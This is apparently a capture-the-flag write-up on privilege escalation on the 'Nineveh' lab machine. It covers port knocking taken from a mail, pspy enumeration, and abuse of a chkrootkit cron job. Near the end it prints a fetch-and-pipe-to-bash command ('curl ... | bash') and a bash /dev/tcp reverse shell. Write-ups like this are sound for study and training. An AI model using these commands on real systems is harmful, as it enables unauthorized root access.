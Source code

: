 # 20 - PrivEsc




# Open ports

```
www-data@nineveh:/tmp/tmp.WsFy9Fi5NY$ ss -ltn
State       Recv-Q Send-Q                                                                         Local Address:Port                                                                                        Peer Address:Port              
LISTEN      0      128                                                                                        *:80                                                                                                     *:*                  
LISTEN      0      128                                                                                        *:22                                                                                                     *:*                  
LISTEN      0      128                                                                                        *:443                                                                                                    *:*                  
LISTEN      0      128                                                                                       :::22                                                                                                    :::*                  
```

This is peculiar because there is ssh server running on port 22 but we couldn't see it on our nmap scan.


# email

```sql
www-data@nineveh:/var/mail$ cat amrois 
From root@nineveh.htb  Fri Jun 23 14:04:19 2017
Return-Path: <root@nineveh.htb>
X-Original-To: amrois
Delivered-To: amrois@nineveh.htb
Received: by nineveh.htb (Postfix, from userid 1000)
        id D289B2E3587; Fri, 23 Jun 2017 14:04:19 -0500 (CDT)
To: amrois@nineveh.htb
From: root@nineveh.htb
Subject: Another Important note!
Message-Id: <20170623190419.D289B2E3587@nineveh.htb>
Date: Fri, 23 Jun 2017 14:04:19 -0500 (CDT)

Amrois! please knock the door next time! 571 290 911
```

There is a number at the end of the email but let's keep doing our enumeration



# What is knockd?
![](vx_images/1692475952624.png)

Now email makes sense a bit, root was referring to the knockd service, let's check if there is a client for the daemon

# Knock client

```sql
www-data@nineveh:/home/amrois$ knock 
usage: knock [options] <host> <port[:proto]> [port[:proto]] ...
options:
  -u, --udp            make all ports hits use UDP (default is TCP)
  -v, --verbose        be verbose
  -V, --version        display version
  -h, --help           this help

example:  knock myserver.example.com 123:tcp 456:udp 789:tcp
```

[This](https://www.techrepublic.com/article/how-to-obscure-open-ports-with-knockd/) article explains knockd very well. So in order for us to talk to the hidden ssh server from our host machine we need to knock the server first.

```bash
$ sudo apt install knockd
$ knock nineveh.htb 571 290 911 # This number is from the email
$ ssh nineveh.htb # now it should work but unfortunately we don't have any credentials yet.
```

# [pspy](https://github.com/DominicBreuker/pspy)

After running linpeas.sh and manually going through the configuration files in /var/www/ for a password I couldn't find anything, there is another tool named pspy it allows you to see commands run by other users, cron jobs, etc. as they execute. Let's give it a shot

![](vx_images/5271094212901.png)

After giving it a minute or so I quickly noticed chkrootkit, no read write permission on it. It is a tool to reveal known rootkits.


# Searchsploit


![](vx_images/2587916137714.png)



# Exploit 
![](vx_images/942533857109.png)

There is a cronjob for the second step so all we need is an update file

```bash
echo "curl 10.10.14.9/shell.sh | bash" > /tmp/update
chmod +x /tmp/update
```



# shell.sh

```bash
bash -i >& /dev/tcp/$IP/9001 0>&1
```

# Root shell

![](vx_images/553508504616.png)
